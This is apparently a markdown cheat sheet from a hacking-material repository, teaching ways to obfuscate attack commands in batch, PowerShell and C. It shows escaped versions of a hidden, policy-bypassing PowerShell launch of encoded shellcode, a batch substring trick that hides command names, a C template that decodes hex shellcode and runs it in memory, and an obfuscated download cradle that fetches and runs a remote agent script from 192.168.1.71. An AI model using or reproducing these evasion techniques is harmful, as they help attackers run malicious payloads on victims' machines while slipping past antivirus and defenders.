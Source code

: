 <br />

# SIMPLE STRING OBFUSCATION TECNICS

<br /><br />

## batch

- string command to obfuscate<br />
`cmd.exe /c powershell.exe -nop -wind hidden -Exec Bypass -noni -enc $shellcode`<br />
The above string can be obfuscated using the **batch escape caracter** ^<br />

- string obfuscated<br />

      cm^d.e^xe /c po^w^er^shel^l.ex^e -n^op -w^i^nd h^idd^en -Ex^e^c B^yp^a^ss -no^n^i -en^c $shellcode

---

- string command to obfuscate<br />
`cmd.exe /c powershell.exe -nop -wind hidden -Exec Bypass -noni -enc $shellcode`<br />

- using one batch local variable to serve as our **master key** (varObj)

      @echo off
      SET varObj=abcdefghijlmnopqrstuvxzkyW0123456789ABCDEFGHIJLMNOPQRSTUVXZKYW
      %varObj:~3,1%%varObj:~12,1%%varObj:~4,1%.exe /c %varObj:~15,1%%varObj:~14,1%%varObj:~26,1%%varObj:~5,1%%varObj:~17,1%%varObj:~18,1%%varObj:~8,1%%varObj:~5,1%%varObj:~11,1%%varObj:~11,1%.exe -nop -%varObj:~26,1%%varObj:~9,1%%varObj:~4,1%%varObj:~4,1%%varObj:~5,1%%varObj:~13,1% -%varObj:~41,1%%varObj:~22,1%%varObj:~5,1%%varObj:~3,1% %varObj:~38,1%%varObj:~25,1%%varObj:~15,1%%varObj:~1,0%%varObj:~18,1%%varObj:~18,1% -noni -%varObj:~5,1%%varObj:~13,1%%varObj:~3,1% $shellcode
      exit


- Description of varObj master_key:<br />
https://github.com/r00t-3xp10it/hacking-material-books/blob/master/obfuscation/pedro-Wandoelmo-key.md
      

---

<br />

## bash

- encoding shellcode in **C** to **ANCII**

      \x8b\x5a\x00\x27\x0d\x0a  <-- C shellcode

      8b5a00270d0a              <-- ANCII shellcode


- parsing shellcode data

      cat shellcode.txt | tr -d '\\' | tr -d 'x'

- template C

      #include
#include
#include
#include
#include
#include
#include
<stdio.h>
<stdlib.h>
<unistd.h>
<string.h>
<windows.h>
<tchar.h>
<stdlib.h>
void exec_shellcode(unsigned char *shellcode)
{
int (*funct)();
funct = (int (*)()) shellcode;
(int)(*funct)();
}
// return pointer to shellcode
unsigned char* decode_shellcode(unsigned char *buffer, unsigned char *shellcode, int size)
{
int j=0;
shellcode=malloc((size/2));
int i=0;
do
{
unsigned char temp[3]={0};
sprintf((char*)temp,”%c%c”,buffer[i],buffer[i+1]);
shellcode[j] = strtoul(temp, NULL, 16);
i+=2;
j++;
} while(i<size);
return shellcode;
}
int main (int argc, char **argv)
{
unsigned char *shellcode;
unsigned char buffer[]=
“fce8890000006089e531d2648b5230”
“8b520c8b52148b72280fb74a2631ff”
... SNIP ...
“b5a25668a695bd9dffd53c067c0a80”
“fbe07505bb4713726f6a0053ffd5”;
int size = sizeof(buffer);
shellcode = decode_shellcode(buffer,shellcode,size);
exec_shellcode(shellcode);
}



---

<br />

## powershell

- string command to obfuscate<br />
`cmd.exe /c powershell.exe -nop -wind hidden -Exec Bypass -noni -enc $shellcode`<br />
The above string can be obfuscated using the **powershell escape caracter** `<br />

- string obfuscated<br />

      cm`d.e`xe /c po`w`er`shel`l.ex`e -n`op -w`i`nd h`idd`en -Ex`e`c B`yp`a`ss -no`n`i -en`c $shellcode

---

- string command to obfuscate<br />
`powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.71/agent.ps1')`<br />
The above string can be obfuscated using **powershell escape caracters** ` and + <br />

- string obfuscated<br />

      $get = New-Object "N`et`Web`Cl`ie`nt"
      p`owe`r`she`l`l.exe IEX ($get).D`ow`n`loa`dSt`rin`g('h'+'t'+'tp'+':'+'//'+'192.168.1.71/agent.ps1')

---

<br />
